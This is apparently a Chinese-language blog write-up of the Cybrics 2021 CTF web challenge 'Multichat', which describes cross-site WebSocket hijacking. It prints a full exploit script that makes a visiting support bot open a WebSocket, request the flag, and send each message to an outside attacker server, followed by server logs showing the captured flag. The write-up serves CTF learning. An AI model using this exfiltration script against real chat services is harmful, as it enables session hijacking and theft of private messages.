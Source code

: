 ```yaml
---
layout: post
title: Cybrics 2021 web wp
date: 2021-07-30 09:56 +0800
last_modified_at: 2021-07-22 09:56:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

## 0x01 Multichat

关键词：Websocket劫持，服务器日志查看

大致是一个基于WebSocket实现的在线聊天室，通过输入房间号连接进入Websocket聊天室。而最后的flag是通过support界面中的寻求support让拥有tech support的服务器去访问我们精心设计好的网页，而我们设计的网页则可以伪装tech support的身份向admin发送消息从而获得flag。

（当然最后因为学艺不精最终没有解出，是最终借鉴了Sndav的exp完成的复现。）

而在赛后复现的时候，出现了一直验证码不正确的情况，经过排查后知道需要挂代理才可以验证成功= =。

下面给出exp（借鉴了Sndav哥哥的exp）：

```
<script>
    function appendLog(msg){
        document.write(`<img src=http://110.40.143.221/index.php?a=${escape(msg)}></img>`);
    }
    ws=new WebSocket("ws://multichat-cybrics2021.ctf.su/ws");
    ws.onclose=function (evt){
        var item ="";
        if(evt.code===1003){
            item=`Status:${evt.reason}`;
        }else{
            item="Connection closed.";
        }
        appendLog(item);
    };
    ws.onopen=function(evt){
        appendLog("Connented");
        ws.send("Hey, i forgot the flag. Can you remind me?")
    };
    ws.onmessage=function(evt){
        appendLog(evt.data)
    };
</script>
```

其中将exp挂载在vps上就可以，而index.php可以是任意界面，仅为了便于观察服务器访问记录。

![image-20210730104331777](C:\Gitbook\Import\heart1ess_s_ctf\blogs\assets\Cybrics1.png)

最终在服务器log中获取到flag：

```
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /favicon.ico HTTP/1.1" 404 493 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Connented HTTP/1.1" 200 215 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Sure%2C%20dude.%20The%20flag%20is%20cybrics%7BPwn3d_CR055_51t3_W3850CK3t_h1jACK1n9%7D HTTP/1.1" 200 215 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Hey%2C%20i%20forgot%20the%20flag.%20Can%20you%20remind%20me%3F HTTP/1.1" 200 216 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
```

获取到flag为：

```
cybrics{Pwn3d_CR055_51t3_W3850CK3t_h1jACK1n9}
```

